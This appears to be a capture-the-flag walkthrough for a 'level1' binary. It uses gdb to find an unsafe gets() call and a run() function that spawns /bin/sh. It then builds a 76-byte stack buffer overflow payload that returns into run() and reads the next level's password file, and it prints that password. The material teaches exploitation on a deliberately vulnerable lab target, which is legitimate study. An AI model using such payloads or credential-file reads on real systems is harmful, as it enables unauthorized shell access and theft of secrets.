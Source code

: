 Execute the *level1* binary:

```bash
./level1
abcd
```

```
```

> Note the *level1* binary read user input from stdin.

```gdb
disass main
```

> Use __set disassembly-flavor intel__ command to set the intel syntax.

```gdb
Dump of assembler code for function main:
   0x08048480 <+0>:	    push   ebp
   0x08048481 <+1>:	    mov    ebp,esp
   0x08048483 <+3>:	    and    esp,0xfffffff0
   0x08048486 <+6>:	    sub    esp,0x50
   0x08048489 <+9>:	    lea    eax,[esp+0x10]
   0x0804848d <+13>:	    mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	    call   0x8048340 <gets@plt>
   0x08048495 <+21>:	    leave
   0x08048496 <+22>:	    ret
End of assembler dump.
```

After check the man of the *gets* function, note the section *BUGS*:

```man
Never use gets().  Because it is impossible to tell without knowing the data in ad‐
vance  how  many  characters  gets() will read, and because gets() will continue to
store characters past the end of the buffer, it is extremely dangerous to use.   It
has been used to break computer security.  Use fgets() instead.

For  more  information, see CWE-242 (aka "Use of Inherently Dangerous Function") at
http://cwe.mitre.org/data/definitions/242.html
```

Check the [suggested link](https://cwe.mitre.org/data/definitions/242.html) talking of __overflow__.

Do some research to find this [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) ressource.

Because the address where to write given in argument to the *gets* function is pointing on the stack frame, the exploit, have to use is a [stack buffer overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow) (link finded from the previous one).

We want to overflow the stack frame part allowed for local variable to the return address (eip register) of the current *main* function for jump to where we want instead of returning where the *main* function was called from.

Find somewhere to jump by checking functions:

```gdb
info functions
```

```gdb
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

Look what's in the *run* function:

```gdb
disass run
```

```gdb
Dump of assembler code for function run:
   0x08048444 <+0>:	    push   ebp
   0x08048445 <+1>:	    mov    ebp,esp
   0x08048447 <+3>:	    sub    esp,0x18
   0x0804844a <+6>:	    mov    eax,ds:0x80497c0
   0x0804844f <+11>:	mov    edx,eax
   0x08048451 <+13>:	mov    eax,0x8048570
   0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:	mov    DWORD PTR [esp],eax
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
```

Note the call to the *system* function.

```man
The system() library function uses fork(2) to create a child process that executes the shell command specified in command using execl(3).
```

Check what is given as an argument to the *system* function:

```gdb
x/s 0x8048584
```

```gdb
0x8048584:	 "/bin/sh"
```

So call this *run* function is what we want, because it gives use the access to the shell with the rights for the *level1* binary.

Have to point the return address (eip register) saved in the stack of the the *main* function to this *run* function.

Let's check how many byte need to write in the stack to access to the return address:

```gdb
b *0x08048490
run
x $esp
info frame
```

```gdb
...
0xbffff5e0:     0xbffff5f0
...
 Saved registers:
  ebp at 0xbffff638, eip at 0xbffff63c
```

Here the __esp__ register (before the call of the *gets* function using the break) points to *0xbffff5f0* and the return address (__eip__ saved register) is saved at *0xbffff63c*.

Compute the difference between these two addresses to know how many byte have to write for access to the saved return address in the stack.

> saved eip - esp = 0xbffff63c - 0xbffff5f0 = 3221222972 - 3221222896 = __76 bytes__

To overwrite the saved eip return address, the input need to have a length of 76 bytes followed by the value we want (here the *run* function address).

> The address value need to be reversed because the stack is writed from the top to the bottom, and next it's readed in the opposite way (from the bottom to the end): (0x)08048444 > "\x44\x84\x04\x08"

```bash
(echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x44\x84\x04\x08" ; cat) | ./level1
cat /home/user/level2/.pass
exit
```

> Use __cat__ to keep stdin open.

```
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

Segmentation fault (core dumped)
```
